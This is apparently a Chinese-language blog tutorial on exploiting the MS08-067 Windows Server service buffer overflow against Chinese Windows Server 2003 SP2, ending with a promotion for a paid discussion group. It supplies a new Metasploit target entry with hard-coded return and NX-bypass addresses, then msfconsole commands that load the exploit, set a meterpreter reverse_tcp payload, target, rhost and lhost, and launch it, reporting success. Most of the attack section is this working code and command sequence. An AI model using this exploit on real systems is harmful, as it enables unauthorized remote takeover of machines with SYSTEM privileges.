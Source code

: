 MS08\_067
---------

MS08\_067是典型的[缓冲区溢出](https://so.csdn.net/so/search?q=%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA&spm=1001.2101.3001.7020)漏洞，Windows的Server服务在处理特制RPC请求时存在缓冲区溢出漏洞，远程攻击者可以通过发送恶意的RPC请求触发这个溢出，导致完全入侵用户系统，SYSTEM权限执行任意指令。     对于Windows 2000、XP和Server 2003，无需认证便可以利用这个漏洞 ，对于Windows Vista和Server 2008，可能需要进行认证。

*   发布日期：2008/10/22
*   针对端口：139、445
*   说明：微软安全公告KB958644
*   漏洞影响：服务器服务中的漏洞可能允许远程执行代码
*   发布日期：2008/10/22
*   受影响的操作系统： Windows 2000;XP;Server 2003为严重，Windows Vista;Server 2008;7 Beta为重要

网上也有很多关于MS08\_067漏洞攻击的教程。

但是，Kali中的MS08\_067的漏洞利用代码都是针对外国语言版本的，没有针对中文版Windows 2003 server sp2 漏洞利用的代码。所以，今天我主要是教大家对中文版2003 server SP2的利用。

大家首先进入到这个目录：

**/usr/share/metasploit-framework/modules/exploits/windows/smb**

然后打开 ms08\_067\_netapi.rb 这个文件，加入下面的内容

```
 [ 'Windows 2003 SP2 Chinese (NX)',      
   {      
	  'RetDec'    => 0x7c99beb8,  # dec ESI, ret @NTDLL.DLL (0x4EC3)      
	  'RetPop'    => 0x7cb5e84e,  # push ESI, pop EBP, ret @SHELL32.DLL(0x565DC3)      
	  'JmpESP'    => 0x7c99a01b,  # jmp ESP @NTDLL.DLL(0xFFE4)      
	  'DisableNX' => 0x7c96f517,  # NX disable @NTDLL.DLL      
          'Scratch'   => 0x00020408,      
   }      
],
```


![](https://img-blog.csdnimg.cn/20181126222815628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

保存，退出！ 

然后我们就可以开始我们的攻击了

```
msfconsole   #进入msfconsle模块      
msf > use exploit/windows/smb/ms08_067_netapi      
msf exploit(ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp      
msf exploit(ms08_067_netapi) > show targets   #查看targets支持的系统版本
```


 我们现在就可以看到 Windows 2003 SP2 Chinese （NX）了

![](https://img-blog.csdnimg.cn/20181126222928533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后我们设置target和options参数

```
msf exploit(ms08_067_netapi) > set target 65      
msf exploit(ms08_067_netapi) > set rhost 192.168.10.19      
msf exploit(ms08_067_netapi) > set lhost 192.168.10.15      
msf exploit(ms08_067_netapi) > exploit
```


 可以看到，攻击成功！

![](https://img-blog.csdnimg.cn/20181126223052803.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)